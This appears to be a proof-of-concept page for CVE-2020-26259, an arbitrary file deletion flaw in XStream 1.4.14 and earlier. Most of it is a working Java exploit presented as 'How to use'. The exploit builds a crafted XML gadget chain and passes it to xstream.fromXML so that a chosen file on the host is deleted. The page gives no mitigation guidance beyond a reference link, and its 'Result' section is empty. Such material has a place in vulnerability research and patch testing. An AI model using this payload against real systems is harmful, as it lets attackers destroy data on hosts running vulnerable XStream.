

## Description

XStream is vulnerable to an Arbitrary File Deletion on the local host when unmarshalling as long as the executing process has sufficient rights.

## Influence

Xstream <= 1.4.14

## How  to use

Step 1：Prepare a test file which will to be deleted in the future

Step 2: POC

~~~java
import com.thoughtworks.xstream.XStream;

public class CVE_2020_26259 {
    public static void main(String[] args) {
        String xml_poc = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>\n" +
                "            <contentType>text/plain</contentType>\n" +
                "            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>\n" +
                "              <tempFile>C:\\Al1ex.txt</tempFile>\n" +
                "            </is>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";

        XStream xstream = new XStream();
        xstream.fromXML(xml_poc);
    }

}
~~~

Result:

## Reference

https://x-stream.github.io/CVE-2020-26259.html

